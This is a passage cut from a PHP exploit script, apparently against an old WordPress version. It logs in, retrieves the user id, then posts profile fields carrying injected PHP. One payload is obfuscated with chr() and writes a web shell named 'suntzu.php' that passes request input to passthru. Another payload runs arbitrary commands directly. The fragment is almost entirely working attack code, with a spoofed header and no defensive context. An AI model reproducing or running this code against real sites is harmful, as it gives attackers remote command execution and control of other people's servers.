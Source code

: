     $temp2=explode(" ",$temp[1]);
    $cookie=$temp2[0];
    $temp2=explode(" ",$temp[2]);
    $cookie.=" ".$temp2[0];
    if ($cookie==''){echo "Unable to login...";die;}
    else {echo "cookie ->".$cookie."\r\n";}

    echo "step 2 -> Retrieve your user id...\r\n";
    $packet="GET ".$p."wp-admin/profile.php HTTP/1.0\r\n";
    $packet.="PC_REMOTE_ADDR: 1.1.1.1\r\n";
    $packet.="Host: ".$host."\r\n";
    $packet.="Cookie: ".$cookie."\r\n";
    $packet.="Connection: close\r\n\r\n";
    $packet.=$data;
    sendpacketii($packet);
    $temp=explode("checkuser_id\" value=\"",$html);
    $temp2=explode("\"",$temp[1]);
    $user_id=$temp2[0];
    if ($user_id==''){die("Unable to retrieve user id...\r\n");}
    else {echo "user id -> ".$user_id."\r\n";}

    echo "step 3 -> Update your profile with the evil code...\r\n";
    $suntzu='$fp=fopen("suntzu.php","w");fputs($fp,chr(60).chr(63).chr(112).chr(104).chr(112).chr(32).chr(101).chr(114).chr(114).chr(111).chr(114).chr(95).chr(114).chr(101).chr(112).chr(111).chr(114).chr(116).chr(105).chr(110).chr(103).chr(40).chr(48).chr(41).chr(59).chr(115).chr(101).chr(116).chr(95).chr(116).chr(105).chr(109).chr(101).chr(95).chr(108).chr(105).chr(109).chr(105).chr(116).chr(40).chr(48).chr(41).chr(59).chr(105).chr(102).chr(32).chr(40).chr(103).chr(101).chr(116).chr(95).chr(109).chr(97).chr(103).chr(105).chr(99).chr(95).chr(113).chr(117).chr(111).chr(116).chr(101).chr(115).chr(95).chr(103).chr(112).chr(99).chr(40).chr(41).chr(41).chr(123).chr(36).chr(95).chr(82).chr(69).chr(81).chr(85).chr(69).chr(83).chr(84).chr(91).chr(99).chr(109).chr(100).chr(93).chr(61).chr(115).chr(116).chr(114).chr(105).chr(112).chr(115).chr(108).chr(97).chr(115).chr(104).chr(101).chr(115).chr(40).chr(36).chr(95).chr(82).chr(69).chr(81).chr(85).chr(69).chr(83).chr(84).chr(91).chr(99).chr(109).chr(100).chr(93).chr(41).chr(59).chr(125).chr(101).chr(99).chr(104).chr(111).chr(32).chr(34).chr(42).chr(68).chr(76).chr(42).chr(34).chr(59).chr(112).chr(97).chr(115).chr(115).chr(116).chr(104).chr(114).chr(117).chr(40).chr(36).chr(95).chr(82).chr(69).chr(81).chr(85).chr(69).chr(83).chr(84).chr(91).chr(99).chr(109).chr(100).chr(93).chr(41).chr(59).chr(63).chr(62));fclose($fp);//';
    $suntzu=urlencode($suntzu);
    $code='error_reporting(0);set_time_limit(0);if (get_magic_quotes_gpc()){$_REQUEST[cmd]=stripslashes($_REQUEST[cmd]);}echo chr(42).chr(68).chr(76).chr(42);passthru($_REQUEST[cmd]);echo chr(42).chr(68).chr(76).chr(42);';
    $code=urlencode($code);
    $data="from=profile";
    $data.="&checkuser_id=".$user_id;
    $data.="&user_login=".urlencode(trim($username));
    $data.="&first_name=".urlencode(trim($username));
    $data.="&last_name=".urlencode(trim($username)).chr(13).$suntzu."//suntzuuu";
    $data.="&nickname=".urlencode(trim($username));
    $data.="&display_name=".urlencode(trim($username)).chr(13).$code."//suntzuu";
    $data.="&email=".urlencode("suntzu@suntzu.org");
    $data.="&url=".urlencode("http://");
    $data.="&aim=";
    $data.="&yim=";
    $data.="&jabber=";
    $data.="&description=whoami";
    $data.="&rich_editing=true";
    $data.="&submit=".urlencode("Update Profile »");
    $packet="POST ".$p."wp-admin/profile-update.php HTTP/1.0\r\n";
    $packet.="PC_REMOTE_ADDR: 1.1.1.1\r\n";
    $packet.="Accept-Encoding: gzip, deflate\r\n";
    $packet.="Accept-Language: en\r\n";
    $packet.="Referer: http://".$host.$path."wp-admin/profile-update.php\r\n";
    $packet.="Content-Type: application/x-www-form-urlencoded\r\n";
    $packet.="Host: ".$host."\r\n";
    $packet.="Content-Length: ".strlen($data)."\r\n";